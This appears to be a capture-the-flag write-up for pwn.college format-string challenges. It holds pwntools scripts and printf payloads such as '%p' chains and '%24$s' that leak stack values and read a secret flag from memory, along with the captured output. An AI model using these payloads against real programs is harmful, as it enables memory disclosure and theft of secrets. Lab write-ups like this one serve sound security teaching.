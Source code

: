 # Format Strings Exploit

## level1.0 & level1.1

`%p` prints 8 bytes

```python
from pwn import *
p = process('/challenge/babyfmt_level1.0')

p.recvuntil(b'Send your data!')
payload = b'%p'*16
p.sendline(payload)
p.recvuntil(b'I will now call printf on your data!\n\n')

l = str(p.recvline())[2:-3].replace('(nil)','').split('0x')
for x in l:
    try:
        print(bytes.fromhex(x).decode('utf-8')[::-1],end="")
    except:
        pass

p.interactive()
```

## level2.0

- We know the address where the secret is stored, let it be `addr`
- Give a string of space-separated `%p` as input, like in level1: "%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p"
- In output, note at which position `addr` is printed, say **7th** parameter
- Run the program again, and now give the input `%7$s`

## level2.1

- Here, we don't knoow the address of the secret
- Replace all `%p` with `%s` where the printed output looks like a memory address

```text
in:  %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
out: 0x7881a8a0f723 (nil) 0x7881a8930297 0xa 0x25 0xfffffffffffffff8 0x7fffef602e70 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil)

in:  %s %p %s %p %p %p %s
out:  (nil) H= 0xa 0x25 0xfffffffffffffff8 IXWEYCSPCCAUMXQ
```

## level3.1

- Given: bss address = 0x404140
- Try looping over `%i$x`:

    ```python
    for i in range(1, 100):
        p = process('/challenge/babyfmt_level3.0')
        p.recvuntil(b'Send your data!')
        
        payload = f'%{i}$x \x40\x41\x40'.encode()

        p.sendline(payload)
        p.recvuntil(b'I will now call printf on your data!\n\n')
        op = p.recvuntil(b'Goodbye!')
        if b"40" in op or b"41" in op:
            print(op, "index:",i)
        p.close()
    ```

    But, no Luck here
- Try looping over `%i$lx`

    ```text
    payload = f'%{i}$lx \x40\x41\x40'.encode()
    > b'a40414020786c24 @A@\n\n### Goodbye!' index: 23
    ```

    getting closer..

    ```text
    payload = f'%{23}$lx \x40\x41\x40'.encode()
    > b'a40414020786c24 @A@\n\n### Goodbye!'

    payload = f'%{23}$lx \x40\x41\x40\x00'.encode()
    > b'40414020786c24 @A@\n### Goodbye!'

    payload = f'%{24}$lx AAAA\x40\x41\x40\x00'.encode()
    > b'a00404140 AAAA@A@\n### Goodbye!'

    payload = f'%{24}$lx AAAA\x40\x41\x40\x00\x00\x00\x00\x00'.encode()
    > b'404140 AAAA@A@\n### Goodbye!'

    payload = f'%{24}$x AAAAA\x40\x41\x40\x00\x00\x00\x00\x00'.encode()
    > b'404140 AAAAA@A@\n### Goodbye!'

    payload = f'%{24}$s AAAAA\x40\x41\x40\x00\x00\x00\x00\x00'.encode()
    > b'pwn.college{xxxxxxxxxxxxxxxxxxxxxxxx}\n AAAAA@A@\n### Goodbye!'
    ```

